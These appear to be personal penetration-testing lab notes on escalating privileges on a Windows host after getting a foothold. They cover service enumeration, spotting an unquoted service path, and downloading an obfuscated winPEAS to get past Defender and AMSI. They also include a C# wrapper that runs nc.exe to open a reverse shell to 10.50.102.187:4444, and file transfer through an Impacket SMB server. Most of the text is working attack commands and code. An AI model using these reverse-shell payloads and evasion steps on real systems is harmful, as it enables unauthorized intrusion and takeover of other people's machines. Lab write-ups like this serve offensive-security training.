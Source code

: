
We have a reverse shell but but but we don't have full access to the system which means that Thomas done security works on this so we have to see how to escalate the privileges from here. Will try to run Winpeas but it might get picked up the AV.

We have the winpeas copy with obfuscated and  
https://github.com/carlospolop/PEASS-ng

Things to keep in mind:
We have the manual enumeration option.
Defender will definitely pick the copy of winpeas but unlikely to catch .bat or obfuscated .exe
version.
But main thing we have to keep in mind to bypass is AMSI will alert defender if we try to 
load any PowerShell Priv-sec check scripts.

```
whoami /priv
```

```
whoami /groups
```
![[Pasted image 20240121004602.png]]

Start by looking for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
![[Pasted image 20240121004855.png]]
![[Pasted image 20240121005421.png]]

As you can see that `SystemExploreHelpService` does not have quotes in the path the rings a bell to the mind that _Unquoted Service Path_ attack and escalate from here.

```
sc qc SystemExplorerHelpService
```
![[Pasted image 20240121010030.png]]

The service is running as LocalSystem which means now we have to check if we have write permission or not
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
![[Pasted image 20240121010229.png]]


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

Finally able to run the winpeas ofs file aka obfuscated file
![[Pasted image 20240121013007.png]]

As you can see there is lot of vulnerability's here due to not upto date patching and updating of files
![[Pasted image 20240121013107.png]]

This is what we have found earlier and verified by the user
![[Pasted image 20240121013347.png]]

![[Pasted image 20240121013522.png]]

Will make a file with name wrapper.cs
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "10.50.102.187 4444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

```
gedit Wrapper.cs
```
```
mcs Wrapper.cs
```
![[Pasted image 20240121215236.png]]

Now will learn a new way to transfer the file for that will use Impacket toolkit
Impacket SMB server

```
python /opt/impacket-0.9.19/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```


```
net use \\10.50.102.187\share /USER:user s3cureP@ssword
```

```
copy \\10.50.102.187\share\Wrapper.exe %TEMP%\wrapper-sardarji.exe
```
![[Pasted image 20240121215947.png]]

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

```
net use \\10.50.102.187\share /del
```
![[Pasted image 20240121220114.png]]
But will delete it for now 

```
"%TEMP%\wrapper-sardarji.exe"
```
![[Pasted image 20240121220608.png]]

![[Pasted image 20240121220629.png]]
Volla we got the reverse shell but still we are not the root user.

So it's now time to exploit that unquoted service path vulnerability!

